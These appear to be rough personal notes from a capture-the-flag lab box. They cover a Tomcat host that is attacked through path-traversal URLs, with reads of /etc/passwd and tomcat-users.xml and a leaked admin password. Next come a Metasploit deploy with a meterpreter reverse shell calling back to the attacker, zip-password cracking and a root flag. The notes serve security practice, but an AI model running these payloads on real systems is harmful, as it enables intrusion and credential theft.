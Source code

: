 10.10.10.194

sudo nmap -sC -sV -Pn -p 10.10.10.194   

megahosting.htb
sales@megahosting.htb


```


We apologise to all our customers for the previous data breach.

We have changed the site to remove this tool, and have invested heavily in more secure servers

```


http://10.10.10.194/news.php?file=



root 
ash

http://10.10.10.194:8080



```
It works !

If you're seeing this page via a web browser, it means you've setup Tomcat successfully. Congratulations!

This is the default Tomcat home page. It can be found on the local filesystem at: /var/lib/tomcat9/webapps/ROOT/index.html

Tomcat veterans might be pleased to learn that this system instance of Tomcat is installed with CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /var/lib/tomcat9, following the rules from /usr/share/doc/tomcat9-common/RUNNING.txt.gz.

You might consider installing the following packages, if you haven't already done so:

tomcat9-docs: This package installs a web application that allows to browse the Tomcat 9 documentation locally. Once installed, you can access it by clicking here.

tomcat9-examples: This package installs a web application that allows to access the Tomcat 9 Servlet and JSP examples. Once installed, you can access it by clicking here.

tomcat9-admin: This package installs two web applications that can help managing this Tomcat instance. Once installed, you can access the manager webapp and the host-manager webapp.

NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.
```

http://10.10.10.194/news.php?file=../../../../../etc/passwd
http://10.10.10.194/news.php?file=../../../../../../var/lib/tomcat9/CATALINA_BASE/conf/tomcat-users.xml



http://10.10.10.194/news.php?file=../../../../../usr/share/doc/tomcat9-common/RUNNING.txt.gz


$CATALINA_BASE/conf/tomcat-users.xml

http://10.10.10.194/news.php?file=../../../../../etc/default/tomcat/CATALINA_BASE/conf/tomcat-users.xml --> does not work


http://10.10.10.194/news.php?file=../../../../../etc/init.d/tomcat9 --> does not work

http://10.10.10.194/news.php?file=../../../../../var/lib/tomcat9/webapps/ROOT/index.html --> this works, got the file


http://10.10.10.194/news.php?file=../../../../../TOMCAT_HOME/conf/server.xml


http://10.10.10.194/news.php?file=../../../../../etc/passwd


http://10.10.10.194/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xsd

http://10.10.10.194/news.php?file=../../../../../$CATALINA_BASE/conf/tomcat-users.xsd


/opt/tomcat/latest/conf/tomcat-users.xml


http://10.10.10.194/news.php?file=../../../../../etc/systemd/system/tomcat.service

/opt/tomcat/latest
http://10.10.10.194/news.php?file=../../../../../opt/tomcat/latest/conf/server.xml

/conf/tomcat-users.xml

http://10.10.10.194/news.php?file=../../../../../opt/tomcat/latest/conf/content.xml


http://10.10.10.194/news.php?file=../../../../../opt/tomcat/latest/temp/tomcat.pid
http://10.10.10.194/news.php?file=../../../../../lib/catalina.jar


http://10.10.10.194/news.php?file=../../../../../opt/tomcat/latest/webapps/manager/META-INF/context.xml

http://10.10.10.194/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xml


http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml



/opt/tomcat/conf/tomcat-users.xml
./opt/tomcat/conf/tomcat-users.xml
./etc/tomcat9/tomcat-users.xml

http://10.10.10.194/news.php?file=../../../../../etc/tomcat9/tomcat-users.xml

WHY DOES NOTHING WORK HOW IS THIS AN EASY BOX

http://10.10.10.194/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xml

/opt/tomcat/conf/tomcat-users.xsd


/usr/share/tomcat9/etc/tomcat-users.xml
/opt/tomcat/conf/tomcat-users.xsd
/opt/tomcat/conf/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml

http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml
http://10.10.10.194/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xsd
http://10.10.10.194/news.php?file=../../../../../opt/tomcat/conf/tomcat-users.xml
http://10.10.10.194/news.php?file=../../../../../etc/tomcat9/tomcat-users.xml


http://10.10.10.194/news.php?file=../../../../../usr/lib/sysusers.d/tomcat9.conf
returns something at least


Configuration Environment="CATALINA_HOME=/usr/share/tomcat9" Environment="CATALINA_BASE=/var/lib/tomcat9"


confirmed, tomcat9 on box was installed using `apt-get install tomcat9`

  GNU nano 4.9.2                                    tomcatusers.xml                                               
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>



wget http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>

   has host-manager gui, but only manager script
   NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.

http://10.10.10.194:8080/host-manager/html/


https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/

tomcat:
$3cureP4s5w0rd123!


use

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting     Required  Description
   ----          ---------------     --------  -----------
   HttpPassword  $3cureP4s5w0rd123!  no        The password for the specified username
   HttpUsername  tomcat              no        The username to authenticate as
   PATH          /manager/text       yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.194        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080                yes       The target port (TCP)
   SSL           false               no        Negotiate SSL/TLS for outgoing connections
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.30      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Linux x86


msf5 exploit(multi/http/tomcat_mgr_deploy) > run


download var/www/html


root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
possible pw found: admin@it ()


li><a href=""><span>Call us :</span>  <strong>(818) 995-1560</strong></a>
											</li>
									<li><a href=""><span>E-mail us :</span> <strong>XpeedStudio@gmail.com</strong> </a></li>

							<p>Can't decide which one best suits you?</p>
							<p class="phone_call">Call us - <strong>(818) 995-1560</strong></p>
							<div class="or_section">
								<div class="separator"></div>
								<p>or</p>
							</div>
							<p class="email_call">Email us - <strong>sales@digitallandscape.com</strong></p>


check who owns zip using `ls -l`

09335e957a2ec3eeb235aed3bf394a90



id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
cdrom access, dial up access, lxd

lxd has root exploit but our box has no internet



ash@tabby:/tmp$ sudo -l -U ash
sudo -l -U ash
Matching Defaults entries for ash on tabby:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ash may run the following commands on tabby:
    (ALL) NOPASSWD: ALL



sudo cat /root/root.txt

4654d92b1b4866d0ce8236ef83b4e03e

